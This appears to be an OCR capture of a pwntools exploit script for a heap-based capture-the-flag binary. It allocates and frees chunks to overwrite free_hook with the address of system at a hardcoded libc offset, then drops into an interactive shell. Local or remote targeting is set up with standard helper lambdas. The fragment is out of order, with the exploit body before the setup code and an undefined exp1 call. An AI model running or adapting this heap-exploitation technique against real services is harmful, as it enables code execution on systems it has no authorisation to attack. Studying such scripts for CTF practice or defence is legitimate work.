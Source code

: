 ```python
    add(9, len(payload1), payload1)
    check(9)

    dele(4)

    add(6, 0x110, flat('a' * 0x80, 0, 0x90, free_hook))

    add(7, 0x80, 'a' * 0x10)
    system = libc + 0x4f550
    add(8, 0x80, flat(system))
    dele(1)




context.os='linux'

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

slog = {'name' : 111}
local = int(sys.argv[1])

if arch==64:
    context.arch='amd64'
if arch==32:
    context.arch='i386'

if local:
    cn = process('./bin')
    # cn = process(['./ld', './bin'], env={"LD_PRELOAD":"./libc"})
else:
    cn = remote( )

elf = ELF('./bin')


re  = lambda m, t : cn.recv(numb=m, timeout=t)
recv= lambda      : cn.recv()
ru  = lambda x    : cn.recvuntil(x)
rl  = lambda      : cn.recvline()
sd  = lambda x    : cn.send(x)
sl  = lambda x    : cn.sendline(x)
ia  = lambda      : cn.interactive()
sla = lambda a, b : cn.sendlineafter(a, b)
sa  = lambda a, b : cn.sendafter(a, b)
sll = lambda x    : cn.sendlineafter(">> ", x)
# after a, send b;
from pwnlib.util import cyclic
ff  = lambda arg, f=cyclic.de_bruijn(), l=None :flat(*arg, filler=f, length=l)

def slog_show():
    for i in slog:
        success(i + ' ==> ' + hex(slog[i]))

exp1()

slog_show()

ia()


```